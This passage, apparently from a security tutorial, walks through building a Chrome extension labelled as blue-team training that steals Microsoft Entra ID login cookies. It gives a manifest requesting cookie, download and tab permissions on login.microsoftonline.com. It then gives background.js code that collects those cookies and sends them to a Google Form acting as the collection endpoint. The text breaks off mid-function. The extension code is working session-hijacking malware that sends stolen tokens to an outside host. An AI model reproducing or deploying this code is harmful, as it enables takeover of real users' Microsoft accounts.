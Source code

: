 #### manifest.json  
Let me explain some of the fields in the manifest file.  
- **name:** Display name of the extension in Chrome.
- **permissions:**  
The required permissions from the chrome browser for the extension to operate.
  - cookies: Allows the extension to read/write cookies from specified sites.  
  - downloads: Enables downloading files or data (e.g., saving exfiltrated data).
  - tabs: Lets the extension access information about open tabs (like URL or title), which may be used to detect active sessions.
- **background**
  - Defines a background service worker (background.js) that runs in the background and handles logic (e.g., cookie access, network monitoring).
- **action**
  - Configures the extension’s toolbar button:
    - default_popup: HTML file displayed when the user clicks the extension icon.
    - default_title: Tooltip text shown on hover over the icon.
- **host_permissions**
   - Contains one or more match patterns that give access to one or more hosts. Here, it allows interaction with all URLs under login.microsoftonline.com, which is the Entra ID login domain.  
```
{
  "manifest_version": 3,
  "name": "Microsoft Cookie Simulation",
  "version": "1.2",
  "description": "Simulates access to Microsoft cookies for blue team training.",
  "permissions": [
    "cookies",
    "downloads",
    "tabs"
  ],
  "host_permissions": [
    "https://login.microsoftonline.com/*"
  ],
  "background": {
    "service_worker": "background.js"
  },
  "action": {
    "default_popup": "popup.html",
    "default_title": "Simulation Active"
  }
}
```
#### background.js  
Replace the **FORM_URL** and **FIELD_NAME** placeholders in the background JavaScript script below with the actual values collected from the Google Form — specifically, the form’s response URL and the entry ID for the cookie field.  Name the file as **background.js**  
```
// Constants for Google Form
const FORM_URL = "https://docs.google.com/forms/d/e/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/formResponse";
const FIELD_NAME = "entry.1776303417"; // e.g., entry.1234567890
function extractAndExfiltrateCookies() { 
  chrome.cookies.getAll({}, (cookies) => { 
    // Filter the cookies for the ones related to Microsoft login domain
    const filteredCookies = cookies.filter(cookie => 
      cookie.domain.includes("login.microsoftonline.com")
    ); 
 
    if (filteredCookies.length === 0) { 
      return; 
    } 
 
      exfiltrateCookiesToGoogleForm(filteredCookies); 
```